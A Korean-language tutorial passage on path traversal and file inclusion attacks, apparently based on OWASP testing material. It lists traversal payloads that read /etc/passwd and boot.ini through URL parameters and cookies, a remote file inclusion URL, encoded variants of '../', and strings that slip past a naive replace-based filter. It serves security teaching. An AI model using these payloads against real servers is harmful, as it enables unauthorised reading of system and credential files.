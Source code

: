 >**공격 방법**
>
>http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
>
>쿠키를 이용한 진단 : Cookie: USER=1826cc8f;PSTYLE=../../../../etc/passwd
>
>해당 공격은 파일을 포함시키거나 웹 사이트 외부에 있는 스크립트 파일을 포함시키는 것도 가능하다.
>
>http://example.com/index.php?file=http://www.owasp.org/malicioustxt
>
>
>
>**OS별 공격방법**
>
>일반적인 공격구문은 필터링 되기 때문에 인코딩을 통한 공격을 진행할 필요 또한 있다. (ex: %00 -> null )
>
>Unix-like OS:
>
>`root directory: "/"`
>`directory separator: "/"
>
>
>
>Windows OS Shell:
>
>`root directory: "[drive letter]:\"`
>
>`directory separator: "\" or "/"`
>
>
>
>- **URL encoding and double URL encoding**
>
>`%2e%2e%2f` -> `../`
>
>`%2e%2e/` -> `../`
>
>`..%2f` -> ../
>
>`%2e%2e%5c` -> `..\`
>
>`..%5c` -> `..\`
>
>`%252e%252e%255c` -> `..\`
>
>
>
>아래와 같은 필터링 로직이 있다고 가정해보자.
>
>```java
>filename = Request.QueryString("file");
>Replace(filename, "/", "\");
>Replace(filename, "..\","");
>```
>
>위와 같은 필터링 로직은 아래 구문을 통해 우회가 가능하다.
>
>```html
>file=....//....//boot.ini
>file=....\\....\\boot.ini
>file=..\..\boot.ini
>```
>
>